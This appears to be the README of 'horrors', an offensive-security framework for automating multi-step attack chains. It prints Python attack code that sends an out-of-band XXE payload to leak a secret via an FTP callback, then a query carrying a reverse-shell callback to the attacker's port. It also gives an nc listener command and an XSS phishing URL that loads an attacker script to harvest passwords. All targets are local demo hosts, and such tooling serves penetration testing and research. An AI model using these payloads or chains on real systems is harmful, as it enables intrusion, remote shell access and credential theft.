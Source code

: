 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is:

```python
async def send_xxe(scenario):
    """Post XXE payload

    """
    await scenario.background(
        requests.post,
        'http://{rhost}:{rport}/xml-import/'.format(**scenario.context),
        data='<?xml version="1.0" ?><something>ftp://{lhost}:{lport_ftp}</something>'.format(**scenario.context),
        headers=scenario.context['post_headers'],
        proxies=scenario.context['proxy']
    )


async def reverse_shell(scenario):
    """Wait for `xxe` event triggered when remote client connects via FTP and sends the secret

    """
    await scenario.background(
        requests.post,
        'http://{rhost}:{rport}/query/'.format(**scenario.context),
        data='secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**scenario.context),
        headers=scenario.context['post_headers'],
        proxies=scenario.context['proxy']
    )


if __name__ == "__main__":
    context = {
        'rhost': '127.0.0.1',
        'rport': 8008,
        'lhost': '127.0.0.1',
        'lport_reverse': 4444,
        'lport_ftp': 2121,
        'proxy': {'http': 'http://127.0.0.1:8080'},
        'post_headers': {'Content-Type': 'application/x-www-form-urlencoded'},
    }

    ftpd = services.FTPReader()
    ftpd.set_state('xxe', when=triggers.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

    story = scenarios.Scenario(**context)
    story.spawn(ftpd)
    story.add(send_xxe)
    story.add(reverse_shell, when='xxe')
    story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    $ horrors/examples/vulnchain/victim.py
    $ horrors/examples/vulnchain/attacker.py

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    $ horrors/examples/xssphish/victim.py
    $ horrors/examples/xssphish/attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.

![xssphish](examples/xssphish/dom-based-xss-phish.jpg)


## Changelog

* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
